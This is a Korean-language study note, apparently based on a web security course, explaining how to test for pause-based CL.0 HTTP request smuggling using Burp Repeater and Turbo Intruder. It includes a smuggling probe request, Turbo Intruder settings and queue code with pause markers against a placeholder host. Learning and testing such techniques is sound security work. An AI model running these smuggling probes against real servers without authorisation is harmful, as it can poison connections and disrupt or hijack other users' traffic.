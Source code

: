 => CL.0 와 비슷한 상황이다. 프론트엔드 서버와 백엔드 서버사이의 커넥션을 오염시켰다. 
=> 참고로, 서버가 요청을 어플리케이션에 전달하는 경우보다 자신이 직접 응답을 회신하는 경우 더욱 취약한 경향이 있다고 한다. 

# pause-based CL.0 테스트하기
- Burp Repeater로도 테스트할 수 있지만 사용할 수 있는 케이스가 제한된다. (프론트 엔드 서버가 백엔드 서버의 타임아웃 응답을 바로 클라이언트쪽으로 보내주는 경우에 한한다.)
- 따라서 Turbo Intruder를 추천한다. 이를 사용하면 mid-request를 멈춘 후에 서버로부터 응답을 받았는지에 관계없이 재개하는 등의 조작을 할 수 있다. 

순서는 다음과 같다. 

1. Burp Repeater에서 CL.0 probe 요청을 만들고, Turbo Intruder로 보낸다. 

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

2. Turbo Intruder의 Python 에디터 패널에서 요청 엔진의 설정(파라메터 값)을 다음과 같이 바꾼다. 

```py
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```

3. 요청을 큐(Queue)에 넣고, 다음 인수를 queue()인터페이스 전달한다. 
- pauseMarker: Turbo Intruder에게 언제 pause를 할지 알려주는 마커이다. 예를들어 특정 문자열을 넣으면 그 문자열을 만났을 때 멈춘다. 
- pauseTime: 얼마나 멈출 건지 밀리세컨드로 지정할 수 있다. 

다음과 같다. 

```py
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000)
```

4. 일반적인 뒤따르는 요청을 큐에 넣는다.

```py
followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n'
engine.queue(followUp)
```

5. 결과 테이블에 모든 응답을 넣도록 한다. 

```py
def handleResponse(req, interesting):
    table.add(req)
```

공격을 수행하면 처음에는 아무런 결과도 보이지 않는다. 그러나 지정한 대기 시간만큼 기다리면 두 개의 결과를 볼 수 있다. 두번째 요청에 대한 응답이 기대하는 응답과 같다면(이 경우에는 404응답), 스머글링에 성공했을 가능성이 매우 높다고 볼 수 있다. 
